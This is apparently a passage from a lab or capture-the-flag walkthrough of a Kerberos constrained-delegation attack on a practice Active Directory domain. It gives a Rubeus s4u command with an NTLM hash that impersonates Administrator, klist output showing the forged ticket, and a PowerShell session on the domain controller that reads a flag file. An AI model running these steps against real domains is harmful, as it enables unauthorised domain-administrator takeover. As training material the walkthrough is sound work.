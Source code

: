 > `NTLM Hash : FCDC65703DD2B0BD789977F1F3EEAECF`

```powershell
.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt
```

<details><summary>🔥 What happens 🔥</summary></details>

#### `klist` - To check if it works

```powershell
klist

Current LogonId is 0:0xd3a62

Cached Tickets: (1)

#0>     Client: Administrator @ EAGLE.LOCAL
        Server: http/dc1 @ EAGLE.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 4/28/2025 12:21:46 (local)
        End Time:   4/28/2025 22:21:46 (local)
        Renew Time: 5/5/2025 12:21:46 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

#### `Enter-PSSession` on Domain Controller

```powershell
Enter-PSSession dc1
```

```powershell
[dc1]: PS C:\Users\Administrator\Documents> hostname
DC1
[dc1]: PS C:\Users\Administrator\Documents> whoami
eagle\administrator
[dc1]: PS C:\Users\Administrator\Documents> dir


    Directory: C:\Users\Administrator\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/5/2023   1:15 PM             22 flag.txt


[dc1]: PS C:\Users\Administrator\Documents> cat flag.txt
<Flag-Is-Here>
```